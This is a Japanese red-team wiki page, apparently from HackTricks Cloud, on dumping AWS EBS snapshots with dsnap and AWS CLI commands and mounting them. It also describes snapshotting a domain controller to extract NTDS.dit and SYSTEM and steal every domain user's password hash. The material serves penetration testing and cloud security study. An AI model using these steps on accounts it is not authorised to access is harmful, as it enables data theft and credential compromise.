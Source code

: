 # AWS - EBSスナップショットのダンプ

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でAWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)コレクションをご覧ください
- 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)をフォローする
- **ハッキングトリックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>

### ローカルでスナップショットを確認する
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
**注意**：dsnapではパブリックスナップショットをダウンロードすることはできません。これを回避するために、スナップショットを個人アカウントにコピーしてからダウンロードできます。
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
このテクニックの詳細については、[https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/) のオリジナルリサーチを参照してください。

Pacuを使用して、[ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots) モジュールを使用することができます。

### AWSでスナップショットをチェックする

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**EC2 VMでマウントする**（バックアップのコピーと同じリージョンにある必要があります）：

ステップ1：EC2→ボリュームに移動して、好みのサイズとタイプの新しいボリュームを作成します。

この操作を実行するには、次のコマンドに従います：
- EC2インスタンスにアタッチするEBSボリュームを作成します。
- EBSボリュームとインスタンスが同じゾーンにあることを確認します。

ステップ2：作成したボリュームを右クリックして「ボリュームをアタッチ」オプションを選択します。

ステップ3：インスタンステキストボックスからインスタンスを選択します。

この操作を実行するには、次のコマンドを使用します：
- EBSボリュームをアタッチします。

ステップ4：EC2インスタンスにログインし、コマンド`lsblk`を使用して利用可能なディスクをリストします。

ステップ5：コマンド`sudo file -s /dev/xvdf`を使用してボリュームにデータがあるかどうかを確認します。

上記のコマンドの出力が"/dev/xvdf: data"を示す場合、ボリュームは空です。

ステップ6：コマンド`sudo mkfs -t ext4 /dev/xvdf`を使用してボリュームをext4ファイルシステムにフォーマットします。または、コマンド`sudo mkfs -t xfs /dev/xvdf`を使用してxfs形式を使用することもできます。ext4またはxfsのいずれかを使用する必要があります。

ステップ7：新しいext4ボリュームをマウントするためのディレクトリを作成します。たとえば、"newvolume"という名前を使用できます。

この操作を実行するには、次のコマンドを使用します：`sudo mkdir /newvolume`。

ステップ8：コマンド`sudo mount /dev/xvdf /newvolume/`を使用してボリュームを"newvolume"ディレクトリにマウントします。

ステップ9：ディレクトリを"newvolume"ディレクトリに変更し、ボリュームマウントを検証するためにディスクスペースを確認します。

この操作を実行するには、次のコマンドを使用します：
- `/newvolume`にディレクトリを変更します。
- `df -h .`コマンドを使用してディスクスペースを確認します。このコマンドの出力には、"newvolume"ディレクトリの空き容量が表示されるはずです。

Pacuを使用してモジュール`ebs__explore_snapshots`を使用してこれを行うことができます。

### AWSでスナップショットを確認する（cliを使用）
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

### シャドウコピー

**`EC2:CreateSnapshot`** 権限を持つ任意のAWSユーザーは、**ドメインコントローラーのスナップショット**を作成し、それを制御するインスタンスにマウントして、Impacketのsecretsdumpプロジェクトで使用するために **NTDS.ditおよびSYSTEM** レジストリハイブファイルをエクスポートすることで、すべてのドメインユーザーのハッシュを盗むことができます。

この攻撃を自動化するためにこのツールを使用できます: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) または、スナップショットを作成した後、以前の技術の1つを使用することもできます。


# 参考文献
* https://devopscube.com/mount-ebs-volume-ec2-instance/

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を使って、ゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksで企業を宣伝したい**、または **HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) のコレクションを見つける
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f) または [**telegramグループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live) をフォローする**
* **ハッキングトリックを共有するために、** [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) のGitHubリポジトリにPRを提出する**

</details>
